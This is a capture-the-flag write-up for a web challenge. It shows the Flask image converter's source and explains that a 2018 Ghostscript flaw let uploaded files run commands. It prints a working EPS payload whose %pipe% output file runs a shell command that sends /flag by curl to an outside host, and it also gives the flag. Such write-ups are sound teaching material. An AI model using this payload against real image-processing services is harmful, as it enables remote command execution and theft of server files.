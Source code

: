 # Slack emoji converter (web, 267p, 29 solved)

```
create your own emoji for Slack at http://emoji.chal.ctf.westerns.tokyo
```

This task is a perfect example of CTF challenge naming conventions - because the challenge has absolutely zero relation to slack, emojis, and conversions.

We are expected to exploit the website http://emoji.chal.ctf.westerns.tokyo/.

The first challenge was to figure out how to drag&drop files from my heavily modified linux installation with i3wm and progressively more completely corrupted APT database. To be honest, I just took the easy way out and used Windows VM.

Anyway the real challenge was to read the source code and find vulnerability:

```python
from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    make_response,
)
from PIL import Image
import tempfile
import os


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response
```

See it yet? No? Probably because there's none. This means that there is 90% chance that ghostscript guys screwed up something again and whole internet is on fire.
So we quickly googled something equivalent to `how do I pwn ghostscript in 2018` and found [this gem](http://openwall.com/lists/oss-security/2018/08/21/2): http://openwall.com/lists/oss-security/2018/08/21/2. This looked really interesting (announcement was from only few days ago!), so I decided to give it a try.

Of course not a single exploit worked on my broken good-for-nothing machine, so I almost lost hope at that moment. We almost spent 3 more hours searching for a different solution. Fortunately, I decided to craft one more exploit and send it to remote server as a last resort (via my Windows VM, of course). And you guessed it, it worked. Interesting fragment:

```
a5
1 .pushpdf14devicefilter
save
legal
restore
mark /OutputFile (%pipe%cat /flag | curl tailcall.net:3333 -X POST -d @/dev/stdin) currentdevice putdeviceprops
showpage
```

Whole exploit file [circle.eps](circle.eps).

`TWCTF{watch_0ut_gh0stscr1pt_everywhere}`